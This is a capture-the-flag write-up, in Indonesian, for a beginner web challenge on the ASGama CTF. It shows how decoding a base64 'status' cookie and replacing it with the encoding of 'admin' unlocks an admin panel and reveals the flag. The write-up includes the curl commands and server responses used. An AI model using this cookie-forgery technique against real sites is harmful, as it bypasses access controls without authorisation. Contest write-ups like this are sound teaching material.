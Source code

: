 # __ASGama CTF__ 
## _Kue_

## Information
**Category:** | **Points:** | **Writeup Author**
--- | --- | ---
Web | 20 | l0l

**Description:** 

> http://ctf.asgama.web.id:40103


### Kue
Dari judul soal sudah cukup jelas bahwa soal ini berhubungan dengan cookie. Coba akses dengan curl.
```html
* Rebuilt URL to: http://ctf.asgama.web.id:40103/
*   Trying 202.43.92.132...
* TCP_NODELAY set
* Connected to ctf.asgama.web.id (202.43.92.132) port 40103 (#0)
> GET / HTTP/1.1
> Host: ctf.asgama.web.id:40103
> User-Agent: curl/7.58.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Host: ctf.asgama.web.id:40103
< Date: Fri, 28 Dec 2018 15:07:10 +0000
< Connection: close
< X-Powered-By: PHP/7.2.6
< Set-Cookie: status=dXNlcg%3D%3D; expires=Sun, 27-Jan-2019 15:07:10 GMT; Max-Age=2592000; path=/
< Content-type: text/html; charset=UTF-8
< 

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>Admin Panel</title>
</head>
<body>
    <h1>Admin Panel</h1>
    Stop, anda bukan admin.</body>
</html>
* Closing connection 0
```

Pada bagian cookie terdapat value dXNlcg%3D%3D yang sama dengan dXNlcg==. 
```
$ echo dXNlcg== | base64 -d
user
```

Tinggal akses dengan set cookie status menjadi base64 dari admin.
```
echo -ne admin | base64
YWRtaW4=
```



### Payload
```
curl --cookie "status"="YWRtaW4=" http://ctf.asgama.web.id:40103 
```

### Result
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>Admin Panel</title>
</head>
<body>
    <h1>Admin Panel</h1>
    GamaCTF{c00k13_b4h4y4}</body>
</html>
```

### Flag
GamaCTF{c00k13_b4h4y4}